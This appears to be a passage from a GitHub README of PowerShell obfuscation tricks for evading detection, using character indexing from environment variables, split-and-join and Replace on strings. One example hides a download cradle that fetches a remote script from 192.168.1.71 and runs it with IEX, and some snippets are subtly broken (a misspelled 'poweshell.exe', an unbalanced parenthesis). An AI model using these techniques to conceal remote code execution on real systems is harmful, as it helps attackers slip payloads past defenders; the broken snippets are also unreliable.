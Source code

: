 <br />

- String command to obfuscate<br />
`powershell.exe Get-WmiObject -Class Win32_ComputerSystem`

- String obfuscated<br />

      $call = $env:LOCALAPPDATA[0,23,21,7,7]-Join ''
      powershell.exe Get-WmiObject -$call Win32_ComputerSystem

![powershell obfuscation](http://i66.tinypic.com/334kh9w.jpg)

---

      [ .Split powershell method ]
      Build a variable named $encoded with the 'SPLIT' syscall inside, and use $encoded.Split("~~") -Join ''
      to 'de-split' the syscall into a new local variable named $decoded, to be called at run-time.

<br />

- String command to obfuscate<br />
`Get-WmiObject -Class Win32_ComputerSystem`

- String obfuscated<br />

      $encoded = "Get-W~~miO~~bject -C~~la~~ss Wi~~n32_Co~~mput~~erSystem"
      $decoded = $encoded.Split("~~") -Join ''
      poweshell.exe $decoded 

![powershell obfuscation](http://i66.tinypic.com/2v2k2lt.jpg)

---

      [ -Replace powershell method ]
      Build a variable named $encoded with the 'SPLIT' syscall inside, and use $encoded.Replace("~~","")
      to 'de-split' the syscall into a new local variable named $decoded, to be called at run-time.

<br />

- String command to obfuscate<br />
`(New-Object Net.WebClient).DownloadString('http://192.168.1.71/Hello.ps1')`

- String obfuscated<br />

      $encoded= "(New-Object Net.We~~bClient).Downlo~~adString('http://192.168.1.71/Hello.ps1')"
      $decoded = $encoded.Replace("~~","")
      IEX $decoded

      [ OR -Replace which is case-sensitive replace ]
      $decoded = $encoded-Replace "~~","")
      IEX $decoded

![powershell obfuscation](http://i63.tinypic.com/10wi1b8.jpg)

<br />

      Another way to use the -Replace switch (remmenber that we can store this command into a $var)
